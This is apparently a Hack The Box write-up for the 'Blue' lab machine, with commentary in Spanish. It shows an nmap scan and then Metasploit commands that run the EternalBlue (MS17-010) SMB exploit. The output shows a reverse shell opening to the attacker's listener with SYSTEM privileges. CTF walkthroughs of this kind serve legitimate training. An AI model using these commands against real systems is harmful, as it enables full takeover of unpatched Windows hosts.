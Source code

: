 # Blue ![](https://www.hackthebox.eu/storage/avatars/52e077ae40899ab8b024afd51cb29b1c_thumb.png)

## Initial Scan
```
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Exploit 
Hagamos una excepcion est vez y usemos metasploit
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.10.40
run
```
Y finalmente leeremos 
```
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.40:49158) at 2020-11-05 21:44:35 +0100
C:\Windows\system32>whoami
nt authority\system
```
